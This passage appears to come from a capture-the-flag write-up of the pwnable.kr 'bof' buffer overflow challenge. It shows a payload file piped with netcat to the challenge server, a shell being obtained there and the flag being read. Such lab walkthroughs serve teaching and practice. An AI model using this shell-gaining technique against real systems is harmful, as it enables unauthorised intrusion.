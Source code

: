 [![](05.png "The jump does not execute and the command to open a shell is called")](05.png)

Looks good, now lets try sending the payload to the server location they gave (`pwnable.kr:9000`)

```console
user@user:~$ cat input.txt - | nc pwnable.kr 9000
ls -la
total 15820
drwxr-x---   3 root bof      4096 Oct 23  2016 .
drwxr-xr-x 115 root root     4096 Dec 22 08:10 ..
d---------   2 root root     4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof      7348 Sep 12  2016 bof
-rw-r--r--   1 root root      308 Oct 23  2016 bof.c
-r--r-----   1 root bof        32 Jun 11  2014 flag
-rw-------   1 root root 16159015 Apr  3 02:21 log
-rw-r--r--   1 root root        0 Oct 23  2016 log2
-rwx------   1 root root      760 Sep 11  2014 super.pl
cat flag
daddy, I just pwned a buFFer :)
```

We successfully get a shell and can run `ls`. We see there is a file called `flag`, outputting the contents of this file gives `daddy, I just pwned a buFFer :)` and putting this into the website confirms this is the correct flag.

